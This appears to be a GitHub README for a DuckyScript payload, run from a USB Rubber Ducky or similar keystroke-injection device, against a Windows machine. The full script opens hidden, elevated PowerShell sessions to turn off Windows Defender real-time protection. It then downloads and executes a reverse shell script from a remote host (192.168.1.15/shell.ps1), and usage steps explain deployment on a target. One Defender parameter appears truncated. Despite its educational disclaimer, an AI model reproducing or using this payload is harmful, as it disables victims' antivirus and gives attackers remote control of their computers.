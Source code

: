 
# Reverse Shell Automation Script for Windows (Payload)

This script is designed to disable Windows Defender and execute a reverse shell on a target Windows machine. The script uses PowerShell commands to achieve these tasks, making it suitable for penetration testing and security assessments. **Note**: This script is intended for ethical hacking and educational purposes only. Unauthorized use of this script is illegal and unethical.

#Author: Subhash Paudel

## How It Works

1. **Disable Windows Defender**: The script initiates an elevated PowerShell session to disable Windows Defender's real-time protection. This allows the execution of potentially malicious scripts without being blocked by the antivirus software.

2. **Establish a Reverse Shell**: After disabling Windows Defender, the script downloads and executes a reverse shell PowerShell script from a remote server. This connects back to the attacker's machine, giving them remote access to the target system.

## Script Breakdown

1. **Turn off Windows Defender**:
   - The script uses a combination of Windows GUI automation (via key presses) and PowerShell commands to disable Windows Defender's real-time protection.
   - It starts by opening a Run dialog (`GUI r`) and then executing a PowerShell command to disable Windows Defender.

2. **Start Reverse Shell**:
   - After disabling Windows Defender, the script opens another Run dialog to execute a PowerShell command that downloads and runs a reverse shell script from a remote server.

## Usage

1. **Preparation**:
   - Host a reverse shell script (`shell.ps1`) on a remote server that is accessible from the target machine.
   - Update the script with the appropriate IP address and path to the reverse shell script.

2. **Deploy the Script**:
   - The script can be deployed using a USB Rubber Ducky, Teensy, or other HID (Human Interface Device) attack platforms that can automate keystrokes on the target machine.

3. **Run the Script**:
   - Plug the device into the target machine.
   - The script will execute automatically, turning off Windows Defender and establishing a reverse shell.

## Example Script

```powershell
REM Turn off Windows Defender and start reverse shell
REM
DELAY 1000
GUI r
DELAY 200
REM Start an elevated powershell instance which will disable Windows Defender.
STRING powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
ENTER
DELAY 1000
REM if you need administrator [left, enter and delay 1000]
LEFT
ENTER
DELAY 1000
ALT y
DELAY 1000
GUI r
DELAY 100
STRING powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.15/shell.ps1');"
ENTER
STRING exit
ENTER
```

## Disclaimer

This script is for **educational purposes only**. Misuse of this script can result in criminal charges and legal consequences. The authors are not responsible for any misuse or damage caused by this script. Use responsibly and always have permission before attempting to access or compromise any systems.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---
@Author: Subhash Paudel
